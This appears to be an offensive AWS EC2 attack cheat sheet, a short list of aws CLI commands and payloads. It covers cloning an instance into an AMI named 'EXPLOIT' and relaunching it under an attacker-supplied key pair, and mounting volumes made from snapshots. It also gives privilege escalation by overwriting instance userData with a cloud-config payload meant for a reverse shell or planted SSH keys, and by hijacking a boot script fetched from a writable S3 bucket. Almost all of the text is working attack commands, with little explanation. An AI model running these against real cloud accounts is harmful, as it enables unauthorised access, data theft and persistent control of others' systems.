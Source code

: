 ````

# EC2 AMI - Read instance, create AMI for instance and run
aws ec2 describe-images --region specific-region
aws ec2 create-image --instance-id ID --name "EXPLOIT" --description "Export AMI" --region specific-region
aws ec2 import-key-pair --key-name "EXPLOIT" --public-key-material fileb:///publickeyfile
aws ec2 describe-images --filters "Name=name,Values=EXPLOIT"
aws ec2 run-instances --image-id {} --security-group-ids "" --subnet-id {} --count 1 --instance-type t2.micro --key-name EXPLOIT

# Create volume from snapshot & attach to instance id && mount in local
aws ec2 create-volume –snapshot-id snapshot_id --availability-zone zone
aws ec2 attach-volume --volume-id above-volume-id --instance-id instance-id --device /dev/sdf

# Privesc with modify-instance-attribute
aws ec2 modify-instance-attribute --instance-id=xxx --attribute userData --value file://file.b64.txt
file.b64.txt contains (and after base64 file.txt > file.b64.txt):
```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
**commands here** (reverse shell, set ssh keys...)
--//
```

# Privesc 2 with user data
# On first launch, the EC2 instance will pull the start_script from S3 and will run it. If an adversary can write to that location, they can escalate privileges or gain control of the EC2 instance.
#!/bin/bash
aws s3 cp s3://example-boot-bucket/start_script.sh /root/start_script.sh
chmod +x /root/start_script.sh
/root/start_script.sh
````
